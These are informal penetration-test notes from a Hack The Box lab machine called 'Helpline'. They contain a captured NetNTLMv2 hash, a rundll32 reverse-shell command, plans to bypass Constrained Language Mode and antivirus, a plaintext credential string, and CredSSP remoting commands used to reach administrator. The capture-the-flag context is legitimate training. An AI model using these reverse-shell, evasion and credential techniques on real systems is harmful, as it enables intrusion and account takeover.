leo::HELPLINE:34a034b5ad34d844:9E05787B6F70F68C9BAAA127DE5916F2:0101000000000000C0653150DE09D201DE5D7511FE421CA5000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000000000000200000DE64D50BEE80408A23C06A8E9BF1F9435D8DCF2135E6C75AD19F58C59E7267C00A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E00310031003800000000000000000000000000
```

using the same shell from the cor profiler you can use that with `rundll32` and get a shell that way and i would like to note doing it this way the shell can run powershell. 

so rundll32 will run a dll you can also use it on a revshell but it wont bypass anything. 

```
rundll32 revshell.dll,main Control_RunDLL
```

```

```

managed to get powershdll to work by using double quotes around the script and ending it with a simi colon. 

idea's with clm bypassed i may no longer need to use cor profiler trick but id like to test out if i can get powershell running based on running the dll with rundll32 it does support powershell. Also test if that bypasses clm. Next use the first part of the bypass run a nishang as leo. Then start enumerating the system more we could also pivot to a meterpreter shell which would be best. then there should be a bunch of ways to get administrator. 

next, if that all fails enumerate the e drive more. then move back to the base64 string that's encrypted. MOVE THE .XML FILE OFF. run file against it. maybe theres a clue there. 

check the e:\ drive for clues. 

when using the c revshell used to create the dlls u have to use the full path. 

```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

av detects the meterpreter  shell and closes it so i haven't bypassed av boo. lol 

Still no leads on admin-pass.xml  i think the major lead is that it in a xml file. 

bypassing **clm** 

/usr/share/responder/logs/n responder saves previous hashes here. 

```
Host Name:                 HELPLINE                                                                       
OS Name:                   Microsoft Windows Server 2019 Standard                                         
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server                                                              
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:                                                                                  
Product ID:                00429-00521-62775-AA118                                                        
Original Install Date:     12/20/2018, 10:07:26 PM                                                        
System Boot Time:          7/30/2019, 9:39:00 PM                                                          
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC                                                                   
Processor(s):              2 Processor(s) Installed.                                                      
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2993 Mhz              
                           [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2993 Mhz              
BIOS Version:              VMware, Inc. VMW71.00V.11599183.B64.1901030933, 1/3/2019                       
Windows Directory:         C:\Windows                                                                     
System Directory:          C:\Windows\system32                                                            
Boot Device:               \Device\HarddiskVolume1                                                        
System Locale:             en-us;English (United States)                                                  
Input Locale:              en-us;English (United States)                                                  
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London                                  
Total Physical Memory:     4,095 MB                                                                       
Available Physical Memory: 1,839 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,489 MB
Virtual Memory: In Use:    2,310 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\HELPLINE
Hotfix(s):                 7 Hotfix(s) Installed.
                           [01]: KB4462930
                           [02]: KB4470502
                           [03]: KB4470788
                           [04]: KB4471331
                           [05]: KB4480056
                           [06]: KB4480979
                           [07]: KB4480116
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection                               
                                 Connection Name: Ethernet0                                               
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.132
                                 [02]: fe80::fd05:3add:8e71:eca1                                          
                                 [03]: dead:beef::fd05:3add:8e71:eca1                                     
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displa
yed.

```

mb@letmein@SERVER#acc

setting up ccp was touguh first need to edit the local dns file. 

```
c:\windows\system32\drivers\etc\hosts
```


then need to add helpline.htb to trusted hosts

```
 Enable-WSManCredSSP -Role Client -DelegateComputer {helpline.htb}
```

it will prompt for the password and bam 

```
 Enter-PSSession -ComputerName helpline.htb -Credential administrator -authentication credssp
```


